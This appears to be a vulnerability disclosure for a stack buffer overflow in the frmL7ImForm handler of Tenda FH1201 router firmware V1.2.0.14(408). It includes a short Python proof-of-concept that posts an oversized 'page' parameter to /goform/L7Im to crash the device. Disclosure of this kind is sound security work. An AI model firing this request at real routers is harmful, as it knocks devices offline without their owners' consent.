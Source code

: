 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3322.html

## Affected version

FH1201 Firmware  V1.2.0.14(408)

## Vulnerability details

The Tenda FH1201 Firmware  V1.2.0.14(408) has a stack overflow vulnerability located in the `frmL7ImForm` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v10, "im.asp?page=%s", v3);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v10` array, thus triggering this security vulnerability.

![image-20240731133253828](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731133253828.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/L7Im"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240731133213595](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731133213595.png)